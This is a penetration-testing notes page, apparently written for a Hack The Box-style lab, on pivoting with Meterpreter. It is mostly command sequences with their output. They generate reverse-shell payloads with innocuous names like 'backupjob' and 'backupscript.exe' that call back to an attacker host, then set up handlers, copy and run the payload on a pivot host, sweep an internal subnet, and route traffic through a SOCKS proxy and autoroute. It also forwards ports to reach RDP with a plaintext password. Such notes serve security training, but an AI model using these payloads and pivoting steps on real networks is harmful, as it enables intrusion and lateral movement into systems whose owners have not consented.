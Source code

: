 ```yaml
---
description: >-
  When we want to perform enumeration scans through the pivot host using
  Meterpreter
---
```


# Meterpreter Tunneling & Port Forwarding

## Tunneling

**Creating Payload for Ubuntu Pivot Host**

```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

**Configuring & Starting the multi/handler**

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

**Transferring Payload to Pivot Host**

```bash
scp backupjob ubuntu@<PivotHostIP>:~/
```

**Executing the Payload on the Pivot Host**

```shell-session
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```

**Meterpreter Session Establishment**

```shell-session
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```

Assuming that firewall on Windows target is allowing ICMP requests, we would ping sweep on this network. We can do that using Meterpreter with the `ping_sweep` module, which will generate the ICMP traffic from the Ubuntu host to the network `172.16.5.0/23`.

**Ping Sweep**

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

**Ping Sweep For Loop on Linux Pivot Hosts**

```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

**Ping Sweep For Loop Using CMD**

```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

**Ping Sweep Using PowerShell**

```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

It is good to attempt our ping sweep at least twice to ensure the arp cache gets built.

If ICMP is blocked we can perform a TCP scan on the 172.16.5.0/23 network with Nmap. Instead of using SSH for port forwarding, we can also use Metasploit's post-exploitation routing module `socks_proxy` to configure a local proxy on our attack host. We will configure the SOCKS proxy for `SOCKS version 4a`. This SOCKS configuration will start a listener on port `9050` and route all the traffic received via our Meterpreter session.

**Configuring MSF's SOCKS Proxy**

```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options
```

**Confirming Proxy Server is Running**

```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

**Adding a Line to proxychains.conf**

```shell-session
socks4 	127.0.0.1 9050
```

**Creating Routes with AutoRoute**

```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

**Listing Active Routes with AutoRoute**

```shell-session
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

the route has been added to the 172.16.5.0/23 network.

**Testing Proxy & Routing Functionality**

```shell-session
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

## Port Forwarding

**Creating Local TCP Relay**

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

* \-l -> start a listener on our attack host's local port 3300
* \-r -> forward all the packets to the remote
* \-p -> remote port

**Connecting to Windows Target through localhost**

```shell-session
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

## Meterpreter Reverse Port Forwarding

**Reverse Port Forwarding Rules**

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```



**Configuring & Starting multi/handler**

```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

**Generating the Windows Payload**

```shell-session
carbonlky@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```





